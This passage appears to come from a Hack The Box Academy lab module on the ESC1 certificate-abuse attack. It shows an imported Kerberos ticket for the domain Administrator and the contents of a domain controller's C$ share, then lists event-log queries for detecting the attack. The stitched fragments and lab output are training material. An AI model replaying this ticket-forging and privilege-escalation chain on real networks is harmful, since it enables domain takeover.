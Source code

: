 ```powershell-session
      ZOzT/01PDJ8oqWNXLDGd9j3y3Fh8mbMZ3jnuJjA2OSxSooUS+rH0f/j4hdNWgryeDHScR8U/Tm/awwv4
      7sFD5i8iK5mtn7gGpn5vzK2zoZ1jq8j++33P6sMnzNgf33l1fOeKR6ggyFKZq9WIGUJjkZ4tcTI2Ufb7
      lLbG23ycyUgqU1aouPAWBWxrCa0xm8nVcnfJOtTVlDY71N4gNx8kqDCDDfjAjz6mqrOzZAGYWHKx1/Oy
      x7zU+W3cKdTIhQh1nN9NY9Zwc/ioJfVBhKY83KZSt7yqJoTR5j7ZztJf4uXQS7EaFzUvRJKBs5xhhwGx
      UsVqGz/GM5i2J8sC7dOQj76T4nMggczbIhR6va1K/2OiVbHGvJb/U+iOfenBIeqryBXW41hyxXWGNtNO
      Tr1pEbJZDIVgrHLh3LzFDHR7zSBjxXE+D9JihuHWDy2hpR+H9HD3KE9ixkjPA5GjXj0R5ikgwdw1SvZl
      yxtLNwDmgbL3ObKsyagKcNYqaN8zky2oSA7ofGL03er+TFLqyMOBh4tEiZTGBkcroX+BpgAC8vA9CFet
      RzlZ+AQRB1+ngimkt6nLeAsdH8+pm8RnWAAtvV/2DZ984WjiDVV8WvvvNoaHt438vRcu7QT8cW/dgeF8
      wmXBJnrI5adpzo+7p0LnPtMIe/02jDgmFRQrAiYtFvhO1BLtWm3ZVe+1/dinsWneuj5APkDIfLSXR2x/
      TU3Waoko5UPjuUn0BQaKWBQQ2OvPF/m79sqz4HLRoAORHvJvCzetebdpbPpfWWdeNeeHs1/Yh2Dj0/s7
      UbQNFmj94yWRM/QcvZz9SKmBLOhp3tMTvUdpDVupliqKaYzuZieiBP/HzaHGt5DcyrsKyJcXQw9upUjz
      XWyWhPIdDOhmZ+aHMh0PMwZpELtZ5NknY2wzxguP3jrTUm1cwXPlGLWvIw4DLAtlFGnd2ladNj33filP
      aUqsWreo6RYcRkHrDmUUAUrUFP/+72DG5ms70/ncq7XhgOnHaeNg+CKU8tQ0J710HuyeVqFYWRa6nOOB
      WPFCQOSaULrrLDdJGqqtbAof4Hi1bgH3WGdtZyRkoWmF/gQR/BdE1yx1okqNnM99EjcuuHaJHy+og+x/
      LU4Ehd9uzdB4o0X2t72v9gjUJTiFRHPP3/6bo4HYMIHVoAMCAQCigc0Egcp9gccwgcSggcEwgb4wgbug
      GzAZoAMCARehEgQQKQTCgNhj3sh4yXvrBwTfeqENGwtFQUdMRS5MT0NBTKIaMBigAwIBAaERMA8bDUFk
      bWluaXN0cmF0b3KjBwMFAEDhAAClERgPMjAyMjEyMTkyMDA0NTNaphEYDzIwMjIxMjIwMDYwNDUzWqcR
      GA8yMDIyMTIyNjIwMDQ1M1qoDRsLRUFHTEUuTE9DQUypIDAeoAMCAQKhFzAVGwZrcmJ0Z3QbC2VhZ2xl
      LmxvY2Fs
[+] Ticket successfully imported!

  ServiceName              :  krbtgt/eagle.local
  ServiceRealm             :  EAGLE.LOCAL
  UserName                 :  Administrator
  UserRealm                :  EAGLE.LOCAL
  StartTime                :  19/12/2022 21.04.53
  EndTime                  :  20/12/2022 07.04.53
  RenewTill                :  26/12/2022 21.04.53
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  KQTCgNhj3sh4yXvrBwTfeg==
  ASREP (key)              :  2EB79553702442F11E93044E3C915490
```

![Get TGT for Administrator](https://academy.hackthebox.com/storage/modules/176/A13/certLogin.png)

After successful authentication, we will be able to list the content of the `C$` share on DC1:

  PKI - ESC1

```powershell-session
PS C:\Users\bob\Downloads> dir \\dc1\c$

    Directory: \\dc1\c$


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----        10/15/2022   6:30 PM                DFSReports
d-----        10/13/2022  11:23 PM                Mimikatz
d-----          9/1/2022   9:49 PM                PerfLogs
d-r---        11/28/2022  10:59 AM                Program Files
d-----          9/1/2022   2:02 PM                Program Files (x86)
d-----        12/13/2022  11:22 AM                scripts
d-r---          8/7/2022   9:31 PM                Users
d-----        11/28/2022  11:27 AM                Windows
```


[PKI]: PS C:\Users\htb-student\Documents> Get-WINEvent -FilterHashtable @{Logname='Security'; ID='4886'}
[PKI]: PS C:\Users\htb-student\Documents> Get-WINEvent -FilterHashtable @{Logname='Security'; ID='4887'}
[pki]: PS C:\Users\htb-student\Documents> $events = Get-WinEvent -FilterHashtable @{Logname='Security'; ID='4886'}
[pki]: PS C:\Users\htb-student\Documents> $events[0] | Format-List -Property *